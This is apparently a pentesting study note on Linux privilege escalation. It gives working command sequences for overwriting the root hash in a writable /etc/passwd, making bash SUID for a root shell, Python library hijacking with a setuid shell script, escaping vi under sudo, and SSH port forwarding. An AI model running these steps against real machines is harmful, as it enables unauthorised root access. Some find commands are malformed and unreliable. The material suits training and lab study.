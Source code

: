 # (PART) Privilege Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

To look at the user privileges use:

```bash
sudo -l
```

Next enumerate SSUID privileges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID privilege to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
